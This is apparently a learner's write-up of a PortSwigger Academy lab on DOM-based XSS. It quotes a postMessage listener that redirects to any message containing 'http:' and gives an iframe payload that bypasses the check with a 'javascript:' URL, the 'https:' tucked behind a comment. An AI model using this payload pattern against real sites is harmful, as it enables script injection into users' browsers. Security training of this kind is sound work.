

# [DOM XSS using web messages and a JavaScript URL](https://portswigger.net/web-security/dom-based/controlling-the-web-message-source/lab-dom-xss-using-web-messages-and-a-javascript-url)

## Steps

- Opened the target web page and went to page source to look for js. Inside the script tag there is the following

    ```window.addEventListener('message', function(e) {
        var url = e.data;
        if (url.indexOf('http:') > -1 || url.indexOf('https:') > -1) {
            location.href = url;
        }
    }, false);
    ```
This means that it listens to web messages from other pages. Whatever is sent, its data is put into url. Before redirecting the browser to that url all it checks is if it contains https: or http: somewhere - anywhere. IndexOf returns -1 when not found. 0 or higher when found.

- I am going into the exploit server and making an iframe. Onload will be sending the message, the src is the lab url.

    ```<iframe src="https://0a0e0066041f146b80f40dfd00e00092.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print()//https:','*')">
    ```

The postmessage is js code, and the https is just added under a comment because it doesnt specify where in the message the https needs to be. 
javascript:... is a valid executable url like mailto: etc.


